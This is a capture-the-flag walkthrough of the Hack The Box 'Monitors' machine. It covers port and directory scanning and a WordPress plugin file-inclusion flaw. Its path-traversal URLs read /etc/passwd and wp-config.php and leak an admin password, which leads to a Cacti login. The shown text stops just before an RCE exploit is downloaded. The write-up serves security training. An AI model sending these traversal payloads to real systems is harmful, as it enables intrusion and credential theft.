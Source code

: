 ## ---------->> Monitors <<------------

// We start with nmap scan 

    $ nmap -sV -A -Pn -T4 10.10.10.238 -p-
-----

    Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
    Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-07 14:05 UTC
    Stats: 0:01:57 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
    Connect Scan Timing: About 6.94% done; ETC: 14:33 (0:25:55 remaining)
    Nmap scan report for 10.10.10.238
    Host is up (0.33s latency).
    Not shown: 65533 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 ba:cc:cd:81:fc:91:55:f3:f6:a9:1f:4e:e8:be:e5:2e (RSA)
    |   256 69:43:37:6a:18:09:f5:e7:7a:67:b8:18:11:ea:d7:65 (ECDSA)
    |_  256 5d:5e:3f:67:ef:7d:76:23:15:11:4b:53:f8:41:3a:94 (ED25519)
    80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
    |_http-server-header: Apache/2.4.29 (Ubuntu)
    |_http-title: Site doesn't have a title (text/html; charset=iso-8859-1).
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

// Navigating to http://10.10.10.238/ , we can see that the output tells us that we not permmited and contact the admin's mail 

// the mail have the domain after the '@' 

![Image 1]()

// So lets had him to /etc/hosts

    $ cat /etc/hosts

    10.10.10.238	monitors.htb

// [Feroxbuster](https://github.com/epi052/feroxbuster)(By epi052) Tool will help us to search for directories in the webssite

    $ ./feroxbuster -u http://monitors.htb/ -t 100
-----
     ___  ___  __   __     __      __         __   ___
    |__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
    |    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
    by Ben "epi" Risher 🤓                 ver: 2.3.1
    ───────────────────────────┬──────────────────────
     🎯  Target Url            │ http://monitors.htb/
     🚀  Threads               │ 100
     📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
     👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
     💥  Timeout (secs)        │ 7
     🦡  User-Agent            │ feroxbuster/2.3.1
     🔃  Recursion Depth       │ 4
     🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
    ───────────────────────────┴──────────────────────
     🏁  Press [ENTER] to use the Scan Cancel Menu™
    ──────────────────────────────────────────────────
    301        9l       28w      317c http://monitors.htb/wp-content
    301        9l       28w      324c http://monitors.htb/wp-content/themes
    301        9l       28w      325c http://monitors.htb/wp-content/plugins
    301        9l       28w      327c http://monitors.htb/wp-content/languages
    301        9l       28w      335c http://monitors.htb/wp-content/languages/plugins
    301        9l       28w      334c http://monitors.htb/wp-content/languages/themes
    301        9l       28w      315c http://monitors.htb/wp-admin
    301        9l       28w      325c http://monitors.htb/wp-content/upgrade
    301        9l       28w      322c http://monitors.htb/wp-admin/images
    301        9l       28w      318c http://monitors.htb/wp-admin/js
    301        9l       28w      319c http://monitors.htb/wp-admin/css
    301        9l       28w      324c http://monitors.htb/wp-admin/includes
    301        9l       28w      320c http://monitors.htb/wp-admin/user


// The output tells us that the server CMS is WordPress

// We can check for vulnerabilities for Wordpress with [wpscan](https://wpscan.com/) tool

    $ wpscan --url http://monitors.htb/ --api-token YOUR_TOKEN --plugins-detection mixed -e
-------

        _______________________________________________________________
                 __          _______   _____
                 \ \        / /  __ \ / ____|
                  \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
                   \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
                    \  /\  /  | |     ____) | (__| (_| | | | |
                     \/  \/   |_|    |_____/ \___|\__,_|_| |_|

                 WordPress Security Scanner by the WPScan Team
                                 Version 3.8.18
               Sponsored by Automattic - https://automattic.com/
               @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
        _______________________________________________________________

        ......

        [+] wp-with-spritz
         | Location: http://monitors.htb/wp-content/plugins/wp-with-spritz/
         | Latest Version: 1.0 (up to date)
         | Last Updated: 2015-08-20T20:15:00.000Z
         | Readme: http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt
         | [!] Directory listing is enabled
         |
         | Found By: Urls In Homepage (Passive Detection)
         | Confirmed By: Known Locations (Aggressive Detection)
         |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/, status: 200
         |
         | [!] 1 vulnerability identified:
         |
         | [!] Title: WP with Spritz 1.0 - Unauthenticated File Inclusion
         |     References:
         |      - https://wpscan.com/vulnerability/cdd8b32a-b424-4548-a801-bbacbaad23f8
         |      - https://www.exploit-db.com/exploits/44544/
         |
         | Version: 4.2.4 (80% confidence)
         | Found By: Readme - Stable Tag (Aggressive Detection)
         |  - http://monitors.htb/wp-content/plugins/wp-with-spritz/readme.txt

        ......

// The output of wpscan shows us there is vulnerability of wp-spritz plugin - Unauthenticated File Inclusion

// Navigating to https://www.exploit-db.com/exploits/44544/ will help us to understant 

![Image 3]()

// Lets try that

    http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../../etc/passwd
    
![Image 4]()

// It worked !

// We can check for WordPress configuration file calle 'wp-config.php'

    http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=../../../wp-config.php

![Image 5]()

// We got Credentials !  wpadmin : BestAdministrator@2020!

// Trying to connect to Wordpress with those credentials didnt work

// So, Since we got successed with the LFI lets try to find some interesting files

// First we need linux directories list, found amazing [lfi-linux-list](https://github.com/carlospolop/hacktricks/blob/a140aa95ee5b53aa4c367cd6d8c5cb96d50dc381/pentesting-web/file-inclusion/lfi-linux-list.md
)(By carlospolop)

// Next we will proceed with the LFI and BurpSuite Intruder and Brute Force the directories to see the responses

![Image 6]()

// We found interesting document in /etc/apache2/sites-enabled/000-default.conf

// Its the apache2 configuration file and he contains a sub domain we need to add to /etc/hosts

    $ cat /etc/hosts

    10.10.10.238	monitors.htb cacti-admin.monitors.htb
    
// Navigating to http://cacti-admin.monitors.htb we represented with login page 

![Image 7]()

// success login with credentials:  admin : BestAdministrator@2020!

// on dashboard page we can see the version is 1.2.12

![Image 8]()

// Lets search for vulnerabilities in [ExploiDB](https://www.exploit-db.com/)

![Image 9]()

// Found a python script for Remote Code Execution(By Leonardo paiva)

// Lets download the Exploit and try him 

